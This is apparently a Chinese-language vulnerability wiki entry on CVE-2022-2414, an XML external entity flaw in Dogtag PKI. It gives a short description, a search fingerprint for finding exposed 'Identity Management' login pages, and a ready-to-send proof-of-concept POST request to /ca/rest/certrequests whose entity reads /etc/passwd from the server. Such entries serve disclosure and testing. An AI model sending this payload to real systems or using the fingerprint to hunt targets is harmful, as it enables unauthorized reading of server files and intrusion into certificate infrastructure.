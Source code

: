 # Dogtag PKI XML实体注入漏洞 CVE-2022-2414

## 漏洞描述

Dogtag PKI 的XML解析器存在安全漏洞，该漏洞源于在分析 XML 文档时访问外部实体可能会导致 XML 外部实体 （XXE） 攻击。此漏洞允许远程攻击者通过发送特制的 HTTP 请求来潜在地检索任意文件的内容。

## 漏洞影响

<a-checkbox checked>Dogtag PKI</a-checkbox></br>

## 网络测绘

<a-checkbox checked>title="Identity Management" </a-checkbox></br>

## 漏洞复现

登录页面

![img](/assets/PeiQi-Wiki/img/1666109777446-b643ca9b-dea3-4ac4-8bf0-8f34f1eec640.png)

验证POC

```java
POST /ca/rest/certrequests
Content-Type: application/xml

<!--?xml version="1.0" ?-->
<!DOCTYPE replace [<!ENTITY ent SYSTEM "file:///etc/passwd"> ]>
<CertEnrollmentRequest>
  <Attributes/>
  <ProfileID>&ent;</ProfileID>
</CertEnrollmentRequest>
```

![img](/assets/PeiQi-Wiki/img/1666110160561-329b89b1-2d6a-47a7-b026-45b0b7ef6670.png)